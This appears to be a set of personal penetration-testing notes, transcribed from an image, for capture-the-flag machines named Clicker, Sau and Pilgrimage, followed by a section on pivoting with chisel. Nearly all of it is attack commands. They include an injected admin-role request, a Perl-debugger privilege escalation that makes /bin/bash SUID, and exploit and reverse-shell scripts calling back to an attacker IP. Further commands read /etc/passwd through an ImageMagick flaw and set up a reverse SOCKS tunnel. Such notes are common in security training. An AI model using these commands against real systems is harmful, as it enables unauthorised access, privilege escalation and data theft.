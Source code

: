 
showmount -e 10.10.11.232 == to see the shares in the nfs
mount -t nfs 10.10.11.232:/mnt/backups /clicker/mnt == to mount shares

GET /save_game.php?role%0a=Admin HTTP/1.1


python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg

find / -perm -4000 2>/dev/null

/usr/bin/xml_pp

sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh

bash -p


=================================================================================
sau 

python3 exploit.py 10.10.14.18 8008 http://10.10.11.224:55555/me

type !sh in less to get a shell




=================================================================================
pilgrimage

feroxbuster -u http://pilgrimage.htb -k
pip install git-dumper
git-dumper http://pilgrimage.htb/.git/ git


ImageMagick 7.1.0–49 was susceptible to Information Disclosure
python3 generate.py -f "/etc/passwd" -o exploit.png  == work like cat command, upload the result to the website

then download the image, and convert it:
wget http://pilgrimage.htb/shrunk/654a82bcf35de.png
convert 654a7a2ba312c.png result.png

decode the hex online or useing:
python3 -c 'print(bytes.fromhex("hex_code_here").decode("utf-8"))'


use the identify commond to see the requested inforation in hexadecimal:
identify -verbose result.png


ps -aux
python3 walkingpath.py reverse input.png 10.10.14.18 8008



=================================================================================
Pivot and chisel

./chisel server -p 8001 --reverse == attacker machine
./chisel client 10.10.101.51:8001 R:1080:socks == pivot machine
modify /etc/proxychains.conf and add socks5 127.0.0.1 1080
proxychains4 nmap 172.16.1.1/24

